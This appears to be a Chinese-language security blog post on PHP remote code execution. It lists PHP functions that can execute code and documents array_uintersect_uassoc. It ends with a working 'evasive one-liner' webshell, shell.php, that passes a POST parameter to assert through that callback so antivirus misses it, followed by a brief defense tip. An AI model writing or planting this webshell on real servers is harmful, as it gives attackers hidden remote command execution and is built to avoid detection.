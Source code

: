 ```yaml
---
layout: post
title:  "远程命令执行漏洞"
categories: Remote code execution
tags:  Remote 一句话木马
author: Hannoch
---
```


* content
{:toc}

# 前言
	远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变$PATH（变量）或程序执行环境的其他方面来执行一个恶意构造的代码。来源：百度百科
# 远程代码执行原理
	客户端向服务器发送恶意请求，该请求内容中有服务器端可执行的代码，服务器端接收请求后未
对来源数据做出过滤/拦截操作，从而造成代码执行漏洞。

# 远程代码执行常见点

```php
eval()
preg_replace("//e",$_GET['h'],"");
array_map()
usort(),uasort(),uksort()
array_filter()
array_reduce()
array_diff_uassoc(),array_diff_ukey()
array_udiff(),array_udiff_assoc(),
array_udiff_uassoc()
array_intersect_assoc(),array_intersect_uassoc()
array_uintersect(),array_uintersect_assoc(),
array_uintersect_uassoc()
array_walk(),array_walk_recursive()
xml_set_character_data_handler()
xml_set_default_handler()
xml_set_element_handler()
ob_start()
unserialize()
xml_set_end_namespace_decl_handler()
xml_set_external_entity_ref_handler()
xml_set_notation_decl_handler()
xml_set_processing_instruction_handler()
xml_set_start_namespace_decl_handler()
xml_set_unparsed_entity_decl_handler()
stream_filter_register()
set_error_handler()
register_shutdown_function()
register_tick_function()
assert()
```

# 生僻函数免杀一句话
[PHP array_uintersect_uassoc() 函数](http://www.w3school.com.cn/php/func_array_uintersect_uassoc.asp)
比较两个数组的键名和键值（使用用户自定义函数进行比较），并返回交集（匹配）：

```php
<?php
function myfunction_key($a,$b)
{
if ($a===$b)
  {
  return 0;
  }
  return ($a>$b)?1:-1;
}

function myfunction_value($a,$b)
{
if ($a===$b)
  {
  return 0;
  }
  return ($a>$b)?1:-1;
}

$a1=array("a"=>"red","b"=>"green","c"=>"blue");
$a2=array("a"=>"red","b"=>"green","c"=>"green");

$result=array_uintersect_uassoc($a1,$a2,"myfunction_key","myfunction_value");
print_r($result);
?>
```
语法
`array_uintersect_uassoc(array1,array2,array3...,myfunction_key,myfunction_value)`

参数	描述
- **array1** 必需。与其他数组进行比较的第一个数组。

- **array2**	必需。与第一个数组进行比较的数组。

- **array3,...**	可选。与第一个数组进行比较的其他数组。

- ** myfunction_key ** 必需。用于比较数组键名的用户自定义函数的名称。

- 定义可调用的比较函数。如果第一个参数小于等于或大于第二个参数，则比较函数必须返回小于等于或大于 0 的整数。

- ** myfunction_value ** 必需。用于比较数组键值的用户自定义函数的名称。

- 定义可调用的比较函数。如果第一个参数小于等于或大于第二个参数，则比较函数必须返回小于等于或大于 0 的整数。

- 使用用户自定义的回调函数 myfunction_key 和 myfunction_value 来计算两个或多个数组的交集（即在 array1 中存在，同时也在其它任何数组中存在的所有数组元素），并返回结果数组。

- 同时进行键名和键值的比较，如 "a"=>1 和 "b"=>1 这两个元素是不相等的。

- myfunction_key 指定的函数用于比较键名是否相等。myfunction_value 指定的函数用于比较键值是否相等。这两个函数都带有两个将进行比较的参数。如果第一个参数小于第二个参数，则函数返回一个负数，如果两个参数相等，则要返回 0，如果第一个参数大于第二个，则返回一个正数。返回的数组中键名保持不变。

# 生成我们的一句话木马
shell.php
```php
$a1=array($_POST['cmd']);
$a2=array($_POST['cmd']);
$result=array_uintersect_uassoc($a1,$a2,"assert","assert");
```

防护：在开发中尽量不要使用危险函数，输入的变量一定要进行过滤。
